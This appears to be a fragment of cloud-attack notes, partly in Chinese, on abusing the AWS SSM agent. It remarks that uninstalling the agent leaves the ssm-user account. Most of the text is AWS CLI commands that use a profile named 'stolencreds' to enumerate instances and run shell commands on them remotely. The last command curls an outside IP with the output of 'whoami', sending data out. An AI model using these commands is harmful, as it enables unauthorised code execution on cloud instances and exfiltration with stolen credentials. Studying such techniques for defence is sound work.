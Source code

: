 	卸载 SSM 代理时，不会从系统中删除 ssm-user 帐户。
	默认情况下，SSM 代理预安装在以下 Amazon 系统映像 (AMI) 上
	>aws ssm describe-instance-information --profile stolencreds --region eu-west-1  
	>aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP Config" --parameters commands=ifconfig --output text --query "Command.CommandId" --profile stolencreds
	>aws ssm list-command-invocations --command-id "COMMAND-ID-HERE" --details --query "CommandInvocations[].CommandPlugins[].{Status:Status,Output:Output}" --profile stolencreds
	>aws ssm send-command --instance-ids "i-05b████████adaa" --document-name "AWS-RunShellScript" --comment "whoami" --parameters commands='curl 162.243.███.███:8080/`whoami`' --output text --region=us-east-1